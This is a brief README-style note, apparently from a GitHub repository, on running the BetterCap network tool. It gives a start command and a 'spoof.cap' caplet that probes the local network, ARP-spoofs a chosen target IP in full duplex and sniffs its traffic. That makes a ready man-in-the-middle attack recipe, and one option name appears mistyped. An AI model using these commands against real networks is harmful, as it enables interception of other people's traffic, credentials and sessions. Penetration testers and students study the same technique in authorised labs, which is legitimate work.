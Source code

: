 # BetterCap

![bettercap](https://raw.githubusercontent.com/bettercap/media/master/logo.png)

**To start with the program**

bettercap iface <name of interface connected>

**spoof.cap**

net.probe on

set arp.spoof.full duplex true

set arp.spoof.target <target IP>

arp.spoof on

net.sniff on
